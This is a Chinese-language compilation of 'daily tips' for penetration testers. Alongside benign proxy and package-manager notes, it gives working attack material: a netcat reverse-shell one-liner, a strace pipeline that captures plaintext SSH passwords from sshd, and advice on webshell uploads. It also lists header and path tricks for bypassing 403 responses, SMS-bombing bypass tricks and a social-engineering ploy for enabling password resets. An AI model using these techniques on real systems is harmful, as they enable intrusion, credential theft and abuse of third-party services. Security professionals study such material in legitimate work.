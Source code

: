 **2021-1-4**

```
每日小知识
1. cAdvisor 是Google出品的用于监控Docker容器的服务，渗透时遇到这个服务基本上是存在容器环境
2. 新版 kali 2020 版后使用 root 账号默认不给密码，可以直接进行修改 : sudo passwd root
3. 在linux中安装一些组件的依赖时会有比如 python-dev 和  python-devel 的区别，这代表不同的发行版本，redhat系是 devel ，debian系是dev
4. nc 具有多个版本,比如:traditional、openbsd、ncat
- traditional 最老的版本,支持最基本的功能
- openbsd 安全版本,回弹要用一大段命令
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
- ncat 新版本,重构了旧版的代码并支持了许多新功能,debian系列发行版下通过以下命令进行安装配置
    apt install -y ncat
    update-alternatives --set nc /usr/bin/ncat
```

# 每日小知识[100分]

分享一个小技巧，在linux下走代理大家一般使用proxychains
在windows下命令行走代理，可以这样配置
```
    - cmd
        set http_proxy=http://127.0.0.1:1080 & set https_proxy=http://127.0.0.1:1080
```
```
    - powershell

        $Env:http_proxy="http://127.0.0.1:1080";$Env:https_proxy="http://127.0.0.1:1080"

```

# 每日小知识[100分]

- MSF 和 CS 中 Stage 与 Stageless 的区别
    - Stage ： 先传一个 shellcode，然后回连端口，加载恶意 metsrv，然后再请求 stdapi 于 priv，进行上线
    - Stageless ： 将 shellcode、metsrv、stdapi、priv 打包，一次性传完
    - 如果想让 msf 直接回弹到 NC，那么必须要用 stageless

- 判断目标主机是不是虚拟机、容器
    - windows
        - cmd : systeminfo
        - Powershell : get-wmiobject win32_computersystem | fl model
    - linux
        ```
        lshw -class system | grep -i VM & grep -i virtual
        dmesg | grep -i VM & grep -i virtual
        dmidecode -s system-product-name
        ls /tmp
        systemd-detect-virt
        virt-what
        ls -alh /.dockerenv
        cat /proc/1/cgroup
        ```


# 每日小知识[100分]
- 当我们拿下 windows 机器时可以通过抓内存中的密码进行横向，但 linux 却不可能抓到内存中的密码，但是 Debian 系列下的 linux 系统可以通过监听 sshd 进程的数据抓取出明文密码，比如你拿下了一台管理员机器，上面由 xshell，你可以手动开一个监听，在开一个登录，监听的窗口上就抓出密码了
```
    strace -xx -fp `cat /var/run/sshd.pid` 2>&1| grep --line-buffered -P 'write\(\d, "\\x00' | perl -lne '$|++; @F=/"\s*([^"]+)\s*"/g;for (@F){tr/\\x//d}; print for @F'|grep --line-buffered -oP '.{8}\K([2-7][0-9a-f])*$'|grep --line-buffered -v '^64$'|perl -pe 's/([0-9a-f]{2})/chr hex $1/gie'
```



# 每日小知识[100分]

- 渗透时尽量不要暴露自己的IP地址，挂代理是必须的
    - linux下要查看自己终端是否走代理可以 curl https://ifconfig.me/ 看下返回的IP地址
    - windows就直接访问 https://ifconfig.me/ 即可

- linux下代理不用多说,proxychains-ng，windows下推荐用Proxifier


# 每日小知识[100分]

- 渗透时遇到某些上传点未作过滤，但负载均衡做了过滤后缀名的情况，可以上传 webshell 命名为 index.php，然后访问 xxx.com/xxx/upload, 尝试 bypass 反代的策略
- 当渗透时遇到了 403 或者 302、401 的拒绝访问，不要怕，多 FUZZ 几次，从 HTTP Header 层面 bypass
    ```bash
    GET /admin HTTP/1.1
    Host: web.com   # ===> 403

    GET /anything HTTP/1.1
    Host: web.com
    X-Original-URL: /admin  # ===> 200

    GET /anything HTTP/1.1
    Host: web.com
    Referer: https://web.com/admin  # ===> 200

    GET https://qq.com HTTP/1.1
    Host: web.com   # ===> SSRF
    /admin/panel    # ===> 403
    /admin/monitor  # ===> 200

    /admin/monitor/;panel   # ===> 302
    web.com/admin   # ===> 403

    web.com/ADMIN       # ===> 200
    web.com/admin/      # ===> 200
    web.com/admin/.     # ===> 200
    web.com//admin//    # ===> 200
    web.com/./admin/./  # ===> 200
    web.com/./admin/..  # ===> 200
    web.com/%2f/admin/  # ===> 200
    web.com/admin.json  # ===> 200(ruby)

    web.com/%2e/admin   # ===> 200
    web.com/%252e/admin # ===> 200
    web.com/%ef%bc%8fadmin  # ===> 200

    web.com/admin       # ===> 302
    web.com/admin..;/   # ===> 200
    http://web.com/admin    # ===> 403
    https://web.com/admin   # ===> 200
    ```


  #  每日小知识[100分]
linux使用过程中经常出现安装软件包失败的问题,很多情况是遇到了锁,可以直接删除(不建议生产环境下使用)
- debian系
    报错：无法获得锁 /var/lib/apt/lists/lock - open (11: 资源暂时不可用)
    ```
    rm -rf /var/cache/apt/archives/lock
    rm -rf /var/lib/dpkg/lock-frontend
    rm -rf /var/lib/dpkg/lock
    rm /var/lib/dpkg/lock
    rm /var/lib/apt/lists/lock
    ```
- redhat系
    报错：/var/run/yum.pid 已被锁定,PID 为 xxxx 的另一个程序正在运行.
    ```
    rm -f /var/run/yum.pid 2> /dev/null
    ```
- 特立独行的 Fedora
    报错：Waiting for process with pid <xxx> to finish.
    ```
    rm -f /var/cache/dnf/metadata_lock.pid 2> /dev/null
    ```


# 每日小知识[100分]

1. 我们在后渗透过程中经常要传 payload 到目标，临时起的文件服务器都是 python 一条命令的事
- Python 2.x
    ```bash
    python -m SimpleHTTPServer 8000
    # 在当前目录起个 8000 端口的 HTTP 服务
    ```
- Python 3.x
    ```bash
    python -m http.server 8000
    ```
- 推荐一个可以加密码的，一条命令python服务器模块
    ```
    pip3 install updog
    updog --port 8888 --password test1234
    ```

2.信息收集小技巧，仔细观察目标页面的js路径，多找几个js目录，专门用js字典进行爆破，获取的js脚本列表，再调用工具去匹配路径和凭证。


# 每日小知识[100分]
程序溢出，int最大值为2147483647，可尝试使用该值进行整数溢出，观察现象。

图片验证码可设置为空，如：code=undefined

至于登陆后台的网站，如果有重置密码功能，但被禁用了，可以找该公司技术qq群，假装用户忘记密码，提重置密码需求，让开通功能，可以验证下是否有任意密码重置漏洞。

任意文件下载：/porc/self/cmdline --当前进程的cmdline参数，/var/lib/mlocate/mlocate.db --全文件路径。
138888888889   12位经过短信网关取前11位，导致短信轰炸

短信轰炸绕过：手机号前加+86有可能会绕过，手机号输入邮箱，邮箱处输入手机号
手机号码前后加空格，86，086，0086，+86，0，00，/r,/n, 以及特殊符号等
手机号前加若干+会造成短信轰炸
获取短信验证码时，用逗号隔开两个手机号，有可能两个手机号能获取到同一个验证码

如果遇见后台页面一闪而过，接着让你登录，一般使用了权限认证方式: 三、302跳转：拦截并drop跳转的数据包，使其停留在当前页面。 这个操作我每次试都是不成功的，但是可以修改返回的302为200，然后删除掉Location字段。

